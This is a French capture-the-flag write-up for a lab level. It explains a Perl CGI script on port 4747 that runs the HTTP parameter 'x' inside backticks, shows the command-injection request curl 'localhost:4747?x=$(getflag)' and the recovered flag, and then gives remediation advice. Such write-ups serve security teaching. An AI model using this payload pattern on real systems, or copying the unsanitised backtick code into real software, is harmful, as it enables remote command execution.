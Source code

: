 # Rapport de Vulnérabilité : Injection de commande dans un script Perl via un paramètre non filtré

## Description

Dans ce niveau, un script Perl accessible sur le port `4747` contient une faille critique d’exécution de commande. Le paramètre `x`, passé via une requête HTTP, est directement injecté dans une commande système sans aucun filtrage. Cela permet à un attaquant d’exécuter arbitrairement des commandes sur le système via une simple requête `curl`.

## Comment Exploiter la Faille

### Étape 1 : Analyse du script Perl

Contenu du script `level04.pl` :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script récupère le paramètre `x` et l’insère directement dans une commande système `echo`, sans échappement ni validation.

### Étape 2 : Compréhension de la faille

La ligne vulnérable est :

```perl
print `echo $y 2>&1`;
```

En Perl, les backticks (`` ` ``) exécutent une commande système.

curl 'localhost:4747?x=$(getflag)'

### Étape 4 : Récupération du flag

Le flag est affiché directement dans la réponse HTTP :

```
ne2searoevaevoem4ov4ar8ap
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais exécuter directement des entrées utilisateur** dans des appels système (\`\`, system(), exec()…).
* **Utiliser des fonctions sécurisées** : En Perl, il est préférable d’utiliser des appels à des commandes avec des listes, ou mieux, d’éviter complètement l’exécution de commandes système.
* **Filtrer et échapper tous les paramètres** : Valider le contenu attendu (liste blanche) avant tout traitement.

## Conclusion

Cette faille classique d'injection de commande permet à un attaquant d’exécuter arbitrairement des commandes sur le système à distance, via un simple paramètre HTTP. Ce genre d’erreur illustre l’importance de **ne jamais faire confiance à une entrée utilisateur**, même dans un script local ou interne.

---
